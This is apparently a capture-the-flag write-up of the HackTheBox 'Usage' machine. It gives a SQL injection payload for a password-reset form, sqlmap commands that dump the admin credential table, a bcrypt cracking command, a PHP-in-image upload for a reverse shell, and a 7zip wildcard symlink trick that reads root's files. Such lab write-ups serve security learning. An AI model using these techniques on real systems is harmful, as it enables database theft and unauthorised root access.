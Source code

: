 ```yaml
---
title: Usage
tags:
  - Linux
  - CVE
  - Wildcard
---
```

![](Pasted%20image%2020240501234511.png)

## Reconnaissance

Firstly, I added the new host to my known ones:

```shell
sudo echo "10.10.11.18 usage.htb" | sudo tee -a /etc/hosts
```

Secondly, I started performing an `Nmap` scan with:

```shell
nmap -sC -T4 -p- usage.htb > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 22:05 CEST
Nmap scan report for usage.htb (10.10.11.18)
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http
|_http-title: Daily Blogs

Nmap done: 1 IP address (1 host up) scanned in 17.41 seconds
```

Then I tried to use dirsearch but found nothing interesting, so I decided to read the code. While doing this I visualized another domain: `admin.usage.htb`, 

![](Pasted%20image%2020240501234847.png)

so I added it to the known hosts:

```shell
sudo echo "10.10.11.18 admin.usage.htb" | sudo tee -a /etc/hosts
```

When I visited the new domain I found an admin login panel:

![](Pasted%20image%2020240501235015.png)

Then I tried to do a login bypass but I didn't get anything 🤕.
After searching quite a lot I tried the "Reset password" option of the main domain (having created an account before doing it) and then I performed manual sql injections. The one successful was:

```sql
example@example.test' AND 1==1;--
```

So I captured the request with **Burpsuite**:

```html
POST /forget-password HTTP/1.1
Host: usage.htb
Content-Length: 96
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://usage.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.9
Referer: http://usage.htb/forget-password
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IkpVektaMURBeHJia1ZZeVpCdDhsTkE9PSIsInZhbHVlIjoiTmhkVU5lRm9zSkFNNTNGQzlxRDZMY2ZNTytBNEVaeHk0S3FNdzd4NkhqWjVlTDRDQUpJZ3lCUmRDQVFtN0pkN3p2Y2QwQklmRC81a3FyRWw3SG9ibllmZUtORHFMRHl4RkljK1doK3pkd1RCOG1UNkZkWDFKbUhBM01mcWYyWEoiLCJtYWMiOiJjMmY3YmJhYjI0ZTZhMjgwYzVkZmNhZmE0NTQyMjY5MGIwMWFmOWVlMGY3N2ExNDY5YzA1N2ZiOGM5YWU2YzY5IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkUvOVFmWllQZmhhTzdiS3ZSalMzM0E9PSIsInZhbHVlIjoiUFgwV0dqN0h2aWNGczViZmRDU08vZkNMOERnRUZuQ2RLaEd5REJUZGNxaVVzR1lqOWt2MnhDTCtHd29qNDY2dU10R3YvbStRUmV2RitpcE5JNk5xbVB0Vnd2WHNlWjBiV3p1QW4zc3BPSlB1WnZuNVFsZXh1cXNwNUpjeDRMU28iLCJtYWMiOiI3MmQ3NWI0YjhmMzQ4NTFjM2Q5M2M5ODBhMjNlZjI4M2M0MmI2OWI2ZjEzNjk4MDIzYmE4ZGJmYjQ4Mjc3MWNjIiwidGFnIjoiIn0%3D
Connection: close

_token=VKIqVeHHgY3azyNB5HmGBngdHk5IPZgiB5srIcBU&email=example@example.test
```

and decided to use SQLMap to automate the process:
- Visit [SQLMap 🪲](/notes/Tools/Sqlmap.md) note for more commands
- As I know that AND worked, I used BUT technique

```shell
sqlmap -r request.txt -p 'email' --dbms=mysql --level=3 --risk=3 --batch --technique=BUT --dbs --dump --threads 3

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT --batch --threads 3 -D usage_blog -T admin_users  --dump

sqlmap -r request.txt  -p 'email' --dbms=mysql --level=3 --risk=3 --technique=BUT --batch --threads 3 -D usage_blog -T admin_users -C name,username,password --dump
```

 I obtained this creds: `admin:$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`, so it was time for brute forcing.

First I checked what kind of hash was it in [hashes.com](https://hashes.com/en/tools/hash_identifier)

Then I decided to use John the Ripper for this:

```shell
john hash.txt --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt
```

After gaining the password, I logged into the initial admin domain:

![](Pasted%20image%2020240502000034.png)

## Weaponization

After a bit of research I found the [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/

## Exploitation

First, I created in my local machine an image with a php code inside of it like:
- Check [Reverse shells 👾](/notes/reverse_shells.md) for the shell

```shell
echo "shell..." > shell.jpg
```

Then I went to the `Administrator >> Setting` at top right on the screen

![](Pasted%20image%2020240502000359.png)

Now what I did was to catch the request of changing the image with burpsuite by the one I previously created and modified the following:

![](Pasted%20image%2020240502000602.png)

![](Pasted%20image%2020240502000625.png)

And then I got the reverse shell :D


### User flag

```shell
cat /home/dash/user.txt
XXXXXXXXXXXXXXXXXXXXXX
```

## Privilege Escalation

First of all, I pivoted to the other user account, `xander`. To do it, I observed the hidden file `.monitrc` and found the credentials of `xander`.

After loggin as him, I performed:

```shell
sudo -l

Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

So I executed the program and, after arriving to the conclusion of being a 7zip performing a backup using a wildcard, I decided to use this in my favour:

```shell
cd /var/www/html/
touch '@root.txt'
ln -s -r /root/root.txt root.txt
sudo /usr/bin/usage_management # and select the 1st option
```

### Root flag

was obtained in the previous exit of the program

==Machine pwned==

